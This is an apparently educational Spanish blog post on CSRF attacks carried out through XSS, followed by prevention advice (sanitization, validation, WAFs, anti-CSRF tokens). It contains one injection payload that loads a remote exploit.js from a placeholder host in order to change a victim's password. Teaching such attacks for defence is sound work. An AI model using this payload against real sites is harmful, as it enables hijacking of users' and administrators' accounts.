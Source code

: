 ```yaml
---
layout: post
title: Cross-Site Request Forgery (CSRF)
tags: web CSRF burpsuite bugbounty CBBH PoC
categories: vulnerabilities 
---
```


Los ataques CSRF pueden utilizar vulnerabilidades XSS para realizar ciertas consultas y llamadas API a una aplicación web en la que la víctima está actualmente autenticada. Esto permitiría al atacante realizar acciones como usuario autenticado. También puede utilizar otras vulnerabilidades para realizar las mismas funciones, como utilizar parámetros HTTP para ataques.

Un ataque CSRF común para obtener acceso con mayores privilegios a una aplicación web es crear un payload JavaScript que cambie automáticamente la contraseña de la víctima al valor establecido por el atacante. Una vez que la víctima ve el payload en la página vulnerable (por ejemplo, un comentario malicioso que contiene el payload JavaScript CSRF), el cídigo JavaScript se ejecutará automáticamente. Utilizaría la sesión iniciada de la víctima para cambiar su contraseña. Una vez hecho esto, el atacante puede iniciar sesión en la cuenta de la víctima y controlarla.

CSRF También se puede aprovechar para atacar a los administradores y obtener acceso a sus cuentas. Los administradores generalmente tienen acceso a funciones confidenciales, que a veces pueden usarse para atacar y obtener control sobre el servidor back-end (dependiendo de la funcionalidad proporcionada a los administradores dentro de una aplicación web determinada). Siguiendo este ejemplo, en lugar de usar código JavaScript que devolvería la cookie de sesión, cargaríamos un archivo remoto .js( JavaScript), de la siguiente manera:

~~~ html
"><script src=//www.example.com/exploit.js></script>
~~~

El archivo exploit.js contendría el código JavaScript malicioso que cambia la contraseña del usuario. Desarrollar exploit.js en este caso requiere conocimiento del procedimiento de cambio de contraseña de esta aplicación web y APIs. El atacante necesitaría crear un código JavaScript que replicara la funcionalidad deseada y la llevara a cabo automáticamente (es decir, un código JavaScript que cambie nuestra contraseña para esta aplicación web específica).

## Prenvención

Aunque debe haber medidas en el back-end para detectar y filtrar la entrada del usuario, también es siempre importante filtrar y desinfectar la entrada del usuario en el front-end antes de que llegue al back-end, y especialmente si este código puede mostrarse directamente en el lado del cliente sin comunicar con la parte trasera. Se deben aplicar dos controles principales al aceptar la entrada del usuario:

| Tipo | Descripción |
|------|-------------|
| Sanitización | Eliminar caracteres especiales y no estándar de la entrada del usuario antes de mostrarla o almacenarla. |
| Validación | Garantizar que la entrada del usuario enviada coincida con el formato esperado (es decir, el correo electrónico enviado coincida con el formato de correo electrónico) |

Además, también es importante desinfectar la salida mostrada y borrar cualquier carácter especial o no estándar. En caso de que un atacante logre eludir los filtros de validación y desinfección del front-end y back-end, aún así no causará ningún daño en el front-end.

Una vez que desinfectemos y/o validemos la entrada del usuario y la salida mostrada, deberíamos poder prevenir ataques como HTML Injection, XSS o CSRF. Otra solución sería implementar un firewall de aplicaciones web (WAF) , que debería ayudar a evitar intentos de inyección automáticamente. Sin embargo, cabe señalar que las soluciones WAF pueden potencialmente evitarse, por lo que los desarrolladores deben seguir las mejores prácticas de codificación y no simplemente confiar en un dispositivo para detectar/bloquear ataques.

En cuanto a CSRF, muchos navegadores modernos tienen medidas anti-CSRF integradas, que impiden la ejecución automática de códgo JavaScript. Además, muchas aplicaciones web modernas tienen medidas anti-CSRF, incluidos ciertos encabezados e indicadores HTTP que pueden evitar solicitudes automatizadas (es decir, anti-CSRF token o http-only/ X-XSS-Protection). Se pueden tomar otras medidas desde un nivel funcional, como exigir al usuario que ingrese su contraseña antes de cambiarla. Muchas de estas medidas de seguridad se pueden eludir y, por lo tanto, este tipo de vulnerabilidades aún pueden representar una amenaza importante para los usuarios de una aplicación web. Es por eso que estas precauciones sólo deben considerarse como una medida secundaria, y los desarrolladores siempre deben asegurarse de que su código no sea vulnerable a ninguno de estos ataques.